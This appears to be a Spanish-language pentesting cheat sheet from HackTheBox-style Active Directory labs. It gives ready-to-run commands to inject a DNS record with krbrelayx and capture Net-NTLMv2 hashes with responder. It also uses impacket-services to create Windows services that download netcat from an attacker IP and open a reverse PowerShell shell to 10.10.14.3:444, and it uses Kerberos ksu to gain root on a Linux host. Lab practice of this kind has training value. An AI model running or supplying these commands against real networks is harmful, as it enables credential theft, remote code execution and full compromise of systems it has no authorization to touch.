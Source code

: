 Dice que se ejecuta cada 5 minutos y que busca por un DNS record que empieze por `web`. Si conseguimos inyectar un DNS record que apunte a nuestra IP, mediante el uso de responder deberíamos ver un hash Net-NTLMv2 el cuál podemos tratar de crackear. Esto se puede llevar a cabo con la herramienta `dnstool.py` de [KrbrelayX](https://github.com/dirkjanm/krbrelayx):

```shell
responder -I tun0 -wd
python3 /opt/krbrelayx/dnstool.py -u '<DOMINIO>\<USUARIO>' -p '<CONTRASEÑA>' -r webruycr4ft -a add -t A -d <LOCAL_IP> <TARGET_IP>
```

## Servicios

En caso de tener credenciales que `crackmapexec` nos diga Pwn3d pero sin embargo no tenemos escritura en ningún sitio interesante, significa que podemos aprovecharnos de la siguiente forma.

- Creamos un servicio que se descargue netcat:

```shell
impacket-services <HOSTNAME>.<DOMINIO> -k -no-pass -dc-ip <DOMINIO> create -name nc -display nc -path 'curl http://10.10.14.3/nc.exe -o c:\programdata\nc.exe'
```

- Ahora lo ejecutamos (esto descargará netcat):

```shell
impacket-services <HOSTNAME>.<DOMINO> -k -no-pass -dc-ip <DOMINIO> start -name nc
```

- Después creamos uno que ejecute netcat:

```shell
impacket-services <HOSTNAME>.<DOMINO> -k -no-pass -dc-ip <DOMINO> create -name shell -display shell -path 'cmd /c C:\ProgramData\nc.exe -e powershell 10.10.14.3 444'
```

- Y lo ejecutamos:

```shell
impacket-services <HOSTNAME>.<DOMINO> -k -no-pass -dc-ip <DOMINIO> start -name shell
```
## Kerberos en linux

Si tenemos credenciales de un usuario del dominio en una máquina Linux que está conectada a este, podemos hacer lo siguiente para convertirnos en root de la máquina linux (si el usuario pertenece a ese grupo, claro):

```shell
kinit <USUARIO>
```

Ponemos su contraseña, luego con `klist` comprobamos. Si el usuario es root:

```shell
webster@webserver:~$ ksu
Authenticated ray.duncan@WINDCORP.HTB
Account root: authorization for ray.duncan@WINDCORP.HTB successful
Changing uid to root (0)
root@webserver:/home/webster# 
```
